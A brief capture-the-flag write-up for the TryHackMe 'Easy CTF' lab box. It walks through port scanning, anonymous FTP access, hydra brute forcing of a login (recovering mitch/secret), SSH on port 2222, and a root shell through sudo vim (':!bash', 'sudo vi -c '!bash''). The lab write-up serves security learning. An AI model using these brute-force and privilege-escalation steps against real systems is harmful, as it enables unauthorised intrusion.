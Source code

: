 ## THM Easy CTF

### recon
Target IP: `10.10.54.244`

    PORT     STATE SERVICE
    21/tcp   open  ftp
    80/tcp   open  http
    2222/tcp open  EtherNetIP-1 (ssh) SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.8 exploit

### Path to root priveldge

ftp into port 21 
    login: anonymous

download: get Formitch.txt

feroxbuster: http port 80

    find login page with php.login


brute force login page with hydra using:
    username: mitch 
    password list: seclists top 100 or more passwords

username: mitch
password: secret


ssh into box on port 2222 with mitch as user
ssh -p 2222 mitch@<ip>
login with password above.

Next we need to see what sudo priveledges the user mitch might have
`sudo -l`

we see that we can run vim as root. this tells us we just need to launch a vim and escalate to root by either of these commands:

1. `sudo vi test.sh`
    
once inside the vim editor we just need to hit ESC to get to command mode and type out the command to open a root shell
`:!bash` viola!!! we are in

or you could try 
`sudo vi -c '!bash'` **note** the two looking single quotes in that command are different.
